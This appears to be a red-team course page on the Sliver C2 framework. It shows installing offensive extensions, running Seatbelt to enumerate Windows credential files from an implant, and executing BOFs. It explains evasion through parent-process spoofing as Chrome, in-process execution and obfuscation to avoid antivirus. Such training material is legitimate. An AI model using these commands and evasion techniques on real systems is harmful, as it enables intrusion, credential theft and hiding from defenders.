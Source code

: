 The Sliver armory is used to install and maintain third party extensions and aliases within sliver. The full list of available extensions can be found at https://github.com/sliverarmory/armory, keep in mind this is community maintained so not all modules are necessarily up to date. 

You can download all configured extensions/aliases using the armory command.

```bash
[server] sliver > armory install all
? Install 18 aliases and 84 extensions? Yes
[*] Installing alias 'SharpSecDump' (v0.0.1) ... done!
[*] Installing alias 'SharpChrome' (v0.0.1) ... done!
[*] Installing alias 'SharpDPAPI' (v0.0.1) ... done!
[*] Installing alias 'SharpMapExec' (v0.0.1) ... done!
[*] Installing alias 'KrbRelayUp' (v0.0.1) ... done!
[*] Installing alias 'SharpRDP' (v0.0.1) ... done!
[*] Installing alias 'SharpUp' (v0.0.1) ... done!
[*] Installing alias 'SharpView' (v0.0.1) ... done!
[*] Installing alias 'SharPersist' (v0.0.1) ... done!
[*] Installing alias 'Sharp WMI' (v0.0.2) ... done!
...
[*] All packages installed
```

These commands can then be used in the context of a session or beacon similarly to other commands, with a couple caveats.

Let’s go ahead and run our first assembly.

```bash
[server] sliver (UNABLE_PRIDE) > seatbelt " WindowsCredentialFiles"

[*] seatbelt output:

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.1.1         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,

====== WindowsCredentialFiles ======

  Folder : C:\Users\defaultuser0\AppData\Local\Microsoft\Credentials\

   ...
```

As you can see Sliver ran the Seatbelt assembly and provided us with the output of our command. Let’s investigate how exactly that happened.

The first thing we can notice is a new process spinning up when we run our command.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ae07f231-691e-4933-883f-fa368d0f78e6/Untitled.png)

Taking a closer look, that process is a child of our implant `UNABLE_PRIDE.exe`.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2dfe565c-6429-4b74-a916-5a920f0ca85e/Untitled.png)

If you look at the assemblies loaded in that process, you’ll notice that the .NET clr along with the Seatbelt code are loaded into memory.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a92e524b-dda2-4b41-8254-3fc47e2ed025/Untitled.png)

All of this information indicates this process was used to run a post-exploitation module and will by default get caught by most AV’s. 

A more stealthy approach would be to change the default process to something more realistic and use parent process spoofing in order to mask our activity such as in the example below.

```bash
[server] sliver (UNABLE_PRIDE) > seatbelt -P 2968 -p "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" " WindowsCredentialFiles"
```

In this case we spoof our parent process id to `2968`, a Chrome process that has other similar child processes and set the default program to be `chrome.exe`.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/93ee0728-be82-4fbb-8084-47f2bd336ece/Untitled.png)

This already looks a lot better and is more likely to bypass detections. A further improvement could be to identify processes that already load the .net CLR and use those to host our post-exploitation payloads or doing additional obfuscation of our extensions to avoid static detections such as `Seatbelt`,However this is somewhat beyond the scope of this course.

Another way to avoid detection is by running the assembly in process using the `-i` flag, while that avoids spinning up a new process, if the extension crashes for whatever reason you will loose your implant.

```bash
[server] sliver (UNABLE_PRIDE) > seatbelt -i " WindowsCredentialFiles"
...
```

If we take a look at the process hosting seatbelt, we’ll see its our implant process which will contain the .NET assembly references.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/37729326-f18b-4250-a873-d4bf4e54b7d5/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e1c05c2f-f2b7-4784-a23b-a837f456cb45/Untitled.png)

## Bof’s

Beacon object files are loaded using trustedsec’s coffloader, when you run a bof command the loader will first be loaded into memory and is used to run whichever bof you choose. From an operator’s perspective bof’s are similar to basic sliver commands.

```bash
[server] sliver (UNABLE_PRIDE) > sa-whoami

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName		SID
====================== ====================================
test.local\tester

GROUP INFORMATION                                 Type                     SID                                          Attributes
================================================= ===================== ============================================= ==================================================
test.local\None                              Group                    S-1-5-21-3109228153-3872411817-1195593578-513 Mandatory group, Enabled by default, Enabled group,
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account and member of Administrators groupWell-known group         S-1-5-114
BUILTIN\Administrators                            Alias                    S-1-5-32-544
BUILTIN\Performance Log Users                     Alias                    S-1-5-32-559                                  Mandatory group, Enabled by default, Enabled group,
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group,
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account                        Well-known group         S-1-5-113                                     Mandatory group, Enabled by default, Enabled group,
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\NTLM Authentication                  Well-known group         S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group,
Mandatory Label\Medium Mandatory Level            Label                    S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group,

Privilege Name                Description                                       State
============================= ================================================= ===========================
SeShutdownPrivilege           Shut down the system                              Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled
SeUndockPrivilege             Remove computer from docking station              Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled
SeTimeZonePrivilege           Change the time zone                              Disabled
```

Since these payloads are run in-process, they have similar advantages and drawbacks as in-process assemblies meaning no new processes are spawned on execution, but a crash risks loosing the implant.
